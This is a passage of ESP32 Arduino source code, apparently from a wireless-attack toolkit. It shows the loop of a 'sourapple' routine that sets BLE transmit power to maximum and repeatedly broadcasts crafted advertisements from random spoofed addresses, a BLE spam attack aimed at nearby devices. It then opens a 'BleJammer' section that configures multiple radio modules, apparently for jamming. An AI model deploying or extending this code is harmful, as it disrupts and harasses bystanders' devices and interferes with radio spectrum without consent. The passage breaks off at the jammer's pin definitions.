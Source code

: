   float currentBatteryVoltage = readBatteryVoltage();
  drawStatusBar(currentBatteryVoltage, false);

  tft.drawLine(0, 19, 240, 19, TFT_WHITE);

  BLEDevice::init("");
  esp_ble_tx_power_set(ESP_BLE_PWR_TYPE_DEFAULT, ESP_PWR_LVL_P9);
  esp_ble_tx_power_set(ESP_BLE_PWR_TYPE_ADV, ESP_PWR_LVL_P9);
  esp_ble_tx_power_set(ESP_BLE_PWR_TYPE_SCAN , ESP_PWR_LVL_P9);

  BLEServer *pServer = BLEDevice::createServer();
  Advertising = pServer->getAdvertising();

  esp_bd_addr_t null_addr = {0xFE, 0xED, 0xC0, 0xFF, 0xEE, 0x69};
  Advertising->setDeviceAddress(null_addr, BLE_ADDR_TYPE_RANDOM);


}

void sourappleLoop() {
  tft.drawLine(0, 19, 240, 19, TFT_WHITE);

  esp_bd_addr_t dummy_addr = {0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
  for (int i = 0; i < 6; i++) {
    dummy_addr[i] = random(256);
    if (i == 0) {
      dummy_addr[i] |= 0xF0;
    }
  }
  BLEAdvertisementData oAdvertisementData = getOAdvertisementData();

  Advertising->setDeviceAddress(dummy_addr, BLE_ADDR_TYPE_RANDOM);
  Advertising->addServiceUUID(device_uuid);
  Advertising->setAdvertisementData(oAdvertisementData);

  Advertising->setMinInterval(0x20);
  Advertising->setMaxInterval(0x20);
  Advertising->setMinPreferred(0x20);
  Advertising->setMaxPreferred(0x20);

  Advertising->start();

  delay(40);
  displayAdvertisementData();
}
}


/*
   BleJammer  //fix


*/

namespace BleJammer {

#define CE_PIN_1  14
#define CSN_PIN_1 15
#define CE_PIN_2  26
#define CSN_PIN_2 12
#define CE_PIN_3  17
#define CSN_PIN_3 34
